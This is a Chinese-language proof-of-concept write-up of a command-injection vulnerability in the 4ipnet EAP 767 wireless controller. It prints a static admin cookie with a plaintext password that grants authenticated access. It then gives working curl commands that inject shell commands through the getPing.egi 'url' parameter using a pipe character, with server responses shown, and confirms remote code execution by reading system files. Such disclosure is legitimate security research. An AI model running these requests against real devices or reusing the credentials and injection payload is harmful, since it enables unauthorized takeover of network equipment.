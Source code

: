 # PoC for 4ipnet EAP 767

```zsh!
❯ curl -I http://{host}/
HTTP/1.1 302 Moved Temporarily
Date: Mon, 15 Jan 2024 01:10:14 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
ETag: "29e-122-2b9cb3e0"
Content-length: 88
Connection: keep-alive
Keep-Alive: timeout=60, max=100
Location: http://{host}/login.asp
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_1ab1ac81f80c42b992f6c4fc96be40e8.png)

從該網頁服務登入頁面，發現為 4ipnet 無線網路控制器
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)


**查詢網路教學，取得該 IOT 預設密碼**

**Web console 功能**
系統概述
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

管理介面有 `Home > Utilities > Network Utilities` 功能，可透過網頁執行 ping, tracert, arping 等網路測試行為
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## 漏洞 PoC
**PoC I @ Browser**

前端有做 input text 檢測，驗證 input text 是否合規
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

改由後端下手，從 network 確認 http request 特徵
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


http request 特徵
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
:::info
可發現其 ping 功能為先將 `url` 作為 query string 參數送出，並取得 `pid`, 再批次透過 `pid` 參數取得 ping output，最終將結果呈現至網頁
:::

發現該管理介面僅依賴 cookie name/value 作為 user 身分證驗依據。


| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

:::danger
使用同 1 組帳密(admin)不論重新登入幾次，cookie 內容均不變
:::

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**PoC II @ cmd**

使用 curl 工具模擬 http request 存取管理介面 home page，被導入登入頁面

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

使用 curl 工具模擬 http request 並帶入上述取得 cookie，證實可使用需驗證身分授權之管理介面 home page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

嘗試存取 `getPing.egi` 頁面，並將 query string 參數`url` 使用escape 特殊字元(`;`,`|`)嘗試跳脫後並注入指定 command

**Attemp I with `;`**
被後端程式檢測為不合法字元
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp II with `|`**
成功跳脫!!! 並取得 `pid`!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

注入`ls` 列出當前目錄
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

注入`ls -l` 列出當前目錄結構，檔案權限,檔案類型，修改日期等資訊
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)


:::success
證實該產品存在遠端程式碼執行(RCE)漏洞， 可透過傳入`url` parameter: input_text + pipe + command 執行任意指令
:::


## 確認設備廠牌型號
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)
## Reference
https://hkitblog.com/12770/
https://www.lienshen.com.tw/sidebar1_01-2-11.html
https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
